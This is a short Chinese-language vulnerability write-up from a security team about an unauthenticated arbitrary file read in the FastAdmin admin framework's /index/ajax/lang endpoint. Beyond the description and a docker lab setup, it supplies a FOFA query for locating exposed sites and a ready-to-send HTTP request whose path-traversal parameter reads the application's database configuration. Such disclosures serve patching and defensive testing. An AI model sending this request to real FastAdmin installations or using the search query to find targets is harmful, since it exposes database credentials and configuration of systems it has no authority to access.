

# FastAdmin后台开发框架 lang 任意文件读取漏洞

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** FastAdmin后台开发框架 lang 任意文件读取漏洞


# 0x01 产品简介

FastAdmin是一款基于PHP+Bootstrap的开源后台框架，专为开发者精心打造。它基于ThinkPHP和Bootstrap两大主流技术构建，拥有完善的权限管理系统和一键生成CRUD等强大功能。FastAdmin致力于提高开发效率，降低开发成本，同时确保后台系统的稳定性和安全性。

# 0x02 漏洞描述

FastAdmin后台开发框架 /index/ajax/lang 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 0x03 FOFA语法

```
body="fastadmin.net" || body="<h1>fastadmin</h1>" && title="fastadmin"
```

# 0x04 环境搭建

```
git clone https://github.com/hellowzsg/docker-phper.git && cd docker-phper
docker-compose up -d php nginx mysql
```

# 0x05 漏洞复现

```
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

 